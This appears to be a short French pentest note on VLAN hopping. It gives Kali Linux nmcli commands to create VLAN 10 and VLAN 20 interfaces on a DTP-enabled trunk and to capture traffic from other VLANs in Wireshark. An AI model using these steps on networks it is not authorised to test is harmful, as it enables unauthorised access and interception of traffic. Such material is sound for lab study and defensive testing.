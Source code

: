 ### **Page VLAN Hopping (`vlan-hopping.md`)**

`
# VLAN Hopping

**Objectif** : Accéder à d’autres VLANs non autorisés via un trunk activé par DTP.

**Méthode** : Configurer une interface VLAN sur l’appareil attaquant pour accéder aux VLANs et intercepter le trafic.

## Étapes et Commandes

1. **Configurer une interface VLAN sur Kali Linux** :
   - Pour le VLAN 10 :
     ```bash
     nmcli con add type vlan ifname VLAN10 dev eth0 id 10
     nmcli con mod VLAN10 ipv4.addresses 192.168.10.50/24 gw4 192.168.10.1
     nmcli con up VLAN10
     ```
   - Pour le VLAN 20 :
     ```bash
     nmcli con add type vlan ifname VLAN20 dev eth0 id 20
     nmcli con mod VLAN20 ipv4.addresses 192.168.20.50/24 gw4 192.168.20.1
     nmcli con up VLAN20
     ```

## Résultat Attendu et Vérification

- **Résultat** : L’attaquant peut voir le trafic de plusieurs VLANs.
- **Vérification** : Lancez **Wireshark** et vérifiez le trafic des VLANs sur les interfaces `VLAN10` et `VLAN20`.
